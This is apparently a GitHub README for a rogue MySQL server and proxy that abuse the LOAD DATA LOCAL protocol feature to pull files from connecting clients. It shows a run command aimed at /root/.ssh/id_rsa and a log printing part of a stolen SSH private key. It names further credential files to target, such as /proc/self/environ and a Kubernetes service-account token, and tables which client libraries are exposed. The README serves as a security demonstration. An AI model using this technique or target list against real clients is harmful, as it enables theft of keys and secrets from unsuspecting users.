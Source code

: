 # Abusing MySQL's LOAD DATA LOCAL feature

The MySQL protocol supports uploading client-local files; in the SQL grammar this can be 
triggered via the LOAD DATA LOCAL statement. Still, the design has security implications
as described in this official advisory:

https://dev.mysql.com/doc/refman/8.0/en/load-data-local-security.html

In short, a malicious MySQL server could send a protocol message to a client to request it
to upload a file, even if it was not initiated by the client itself (via a LOAD DATA LOCAL).

This repo is hosting two tools to demonstrate that behaviour. They are:
- proxy tool: it is a simple TCP proxy injecting the upload request messages, needs an 
  upstream MySQL server it connects to and relay the communication (so authentication
  is controlled by the real server).
- server tool: it is a dummy mysql server implementation (and thus needs some dependencies 
  to be installed). This tool accepts any connections (regardless what username/password
  the client is sending).

## Example

Run the application with these parameters:

```
$ perl rogue-mysql-server.pl /root/.ssh/id_rsa
[Sun Mar 14 17:40:14 2021 2400 ] Please use `mysql --host=127.0.0.1 --port=23306` to connect.
```

Then simply connect to it:

```
root@cloudshell:~/.ssh$ mysql -h 213.222.165.237 -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2400
Server version: DBIx::MyServer 0.42

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

At this point, the selected file is already uploaded to the malicious server:

```
[Sun Mar 14 17:40:16 2021 2400 34.90.245.119-root-] Username: root, Scramble: , Database:
[Sun Mar 14 17:40:16 2021 -19592 34.90.245.119-root-] Command: 3; Data: select @@version_comment limit 1
[Sun Mar 14 17:40:16 2021 -19592 34.90.245.119-root-] /root/.ssh/id_rsa (1856 bytes)
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAtB8+E3Qoj3LWPaSMudHIfWAwWd+HSUS4q3Yo2Lv9nUDW1oWNsG5y
N1rpU2HsqbEoZn/ucJ9VGBs9drzvz9glm9S+TiLdmjCwYRrMI44xvJe3nPqMFRdbZz2luu
...
```

Another files with potentially sensitive content:

- /proc/self/environ

- /var/run/secrets/kubernetes.io/serviceaccount/token

## Affected client libraries

| Client library                  | Affected by default | Remarks                                     |
|---------------------------------|---------------------|---------------------------------------------|
| Debian mysql cli                | yes                 | 5.7.33-1debian10                            |
| Java's JDBD MySQL connector     | no                  | `allowLoadLocalInfile=true`                 |
| go-sql-driver/mysql             | no                  | `allowAllFiles=true`                        |
| PyMySQL                         | no                  | `local_infile=True`                         |
| PHP mysqli                      | version specific    | `mysqli.allow_local_infile=1`<br> Before 7.2.16 and 7.3.3 allowed by default  |
| Perl DBD::MySQL                 | no                  | `mysql_local_infile˙=1`                     |


## Limitations

You cannot steal multiple files in one session. I don't really know what the reason of this is, 
but the official CLI keeps disconnecting when it encounters multiple requests. Furthermore, it
also aborts the connection after serving one single file upload request - it might be possible
to fix this by reading the protocol specification more carefully.
